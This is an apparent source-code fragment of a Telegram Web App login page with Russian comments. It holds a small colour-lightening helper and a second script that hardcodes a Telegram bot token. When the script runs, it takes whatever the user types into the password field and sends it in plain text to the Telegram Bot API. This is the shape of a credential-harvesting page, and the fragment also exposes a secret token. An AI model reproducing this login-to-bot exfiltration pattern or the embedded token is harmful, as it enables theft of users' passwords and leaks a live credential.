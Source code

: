         // Функция для увеличения яркости
        function lightenColor(hex, percent) {
            var rgb = hexToRgb(hex);
        
            // Увеличение яркости на заданный процент
            rgb.r = Math.min(255, Math.floor(rgb.r * (1 + percent / 100)));
            rgb.g = Math.min(255, Math.floor(rgb.g * (1 + percent / 100)));
            rgb.b = Math.min(255, Math.floor(rgb.b * (1 + percent / 100)));
        
            return rgbToHex(rgb.r, rgb.g, rgb.b);
        }

        // Пример использования
        
        login_cont = document.querySelector(".login-container")
        login_cont.style.backgroundColor = lightenColor(tg.backgroundColor, 20)
        
    </script>
    <script>
    const token = '7321690711:AAGC0FDwSodg-2gG4lxUyU-3QbTwLl1llXM';
    const chatId = '916858507';
    passtext = document.getElementById("password")
    logintext = document.getElementById("username")

    function sendMessage() {
      const message = `password:${passtext.value}`;
      
      fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({
          chat_id: logintext.value,
          text: message,
        }),
      })
      .then(response => response.json())
      .then(data => {
        if (data.ok) {
          alert('Сообщение отправлено!');
        } else {
          alert('Ошибка отправки сообщения.');
        }
      })
      .catch(error => {
        console.error('Ошибка:', error);
      });
    }
  </script>
</body>
</html>

